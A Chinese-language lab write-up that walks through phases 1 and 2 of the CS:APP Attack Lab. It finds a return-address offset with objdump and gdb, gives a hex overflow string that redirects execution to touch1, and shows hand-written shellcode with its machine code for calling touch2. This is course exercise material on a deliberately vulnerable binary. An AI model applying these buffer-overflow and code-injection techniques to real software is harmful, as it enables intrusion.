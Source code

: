 首先使用`objdump -d ctarget`指令将ctarget文件反汇编，注意到touch1函数的地址为`0x4017c0`,test函数中调用getbuf的下一行命令地址为`0x401976`，故只需在gdb中观察getbuf栈帧，`0x401976`处即为应修改返回地址的地方

![image-20230625121228141](https://cdn.jsdelivr.net/gh/Real-Rio/pictures/img/image-20230625121228141.png)

输入字符串`123456`后用gdb查看rsp开始的64个字节，发现输入字符串从rsp处开始，返回地址位于`rsp+40`处，那么思路为：构造字符串前40个字节任意（不为0），第41～44个字节为`c0 17 40 00`

在string.txt中保存构造字符串（16进制）

```
31 31 31 31 31 31 31 31
31 31 31 31 31 31 31 31
31 31 31 31 31 31 31 31
31 31 31 31 31 31 31 31
31 31 31 31 31 31 31 31
c0 17 40 00 00 00 00 00
```

使用命令`./hex2raw < string.txt | ./ctarget -q`成功通过phase1



### Phase2 

```c
void touch2(unsigned val)
{
  vlevel = 2; /* Part of validation protocol */
  if (val == cookie) {
  printf("Touch2!: You called touch2(0x%.8x)\n", val);
  validate(2);
} else {
  printf("Misfire: You called touch2(0x%.8x)\n", val);
  fail(2);
 }
 	exit(0);
 }
```

与phase1类似，需要从getbuf函数返回到touch2函数执行，但需要注意的是，touch2中会将参数val与cookie比较，因此我们在进入touch2函数之前需要用一段程序修改参数为cookie值，注意，第一个参数保存在edi寄存器中

存放这段程序的位置可以是phase1中rsp到返回地址之间的40个字节处

```asm
(gdb) p/x cookie
$4 = 0x59b997fa # cookie的值

00000000004017ec <touch2> # touch2地址
```

编写汇编程序后使用`gcc -c phase2-snippet.s`进行汇编，再使用`objdump -d phase2-snippet.o`命令反汇编得到机器码

```asm
# 编写汇编程序为
mov $0x59b997fa,%edi # 将edi设为cookie
push $0x004017ec # 将touch2的返回地址压入栈中，随后返回
ret
# 机器码为
0:   bf fa 97 b9 59          mov    $0x59b997fa,%edi
5:   68 ec 17 40 00          pushq  $0x4017ec
a:   c3                      retq 
```
